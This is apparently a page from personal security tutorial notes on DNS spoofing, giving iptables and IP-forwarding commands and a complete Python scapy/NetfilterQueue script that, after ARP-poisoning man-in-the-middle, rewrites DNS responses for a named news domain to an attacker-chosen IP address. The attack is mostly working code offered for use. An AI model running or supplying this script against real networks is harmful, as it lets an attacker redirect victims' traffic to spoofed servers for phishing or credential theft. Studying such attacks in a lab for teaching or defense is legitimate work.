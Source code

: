 ```yaml
---
title: "DNS spoofing"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can spoof DNS answers, by modifying the rdata field in the DNS Response request packet.

After spoofing the rdata field will contain a spoofed ip address of a attacker server instead of the original servers IP address.

For this we need to modify packets on the fly. With scapy alone this is not possible, we need to use NetfilterQueue.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jwever.bitbucket.io/lan/exploitation/mitm/arp_cache_poisoning/

```mk
echo '1' > /proc/sys/net/ipv4/ip_forward
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```mk
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

```python
import netfilterqueue
from scapy.all import IP
import scapy.all as scapy


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
        qname = scapy_packet[scapy.DNSQR].qname
        if "nrc.nl" in qname:
            print("[+] Spoofing target")
            answer = scapy.DNSRR(rrname=qname, rdata="192.168.178.12")
            scapy_packet[scapy.DNS].an = answer
            scapy_packet[scapy.DNS].ancount = 1

            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len

            packet.set_payload(str(scapy_packet))

    packet.accept()



queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
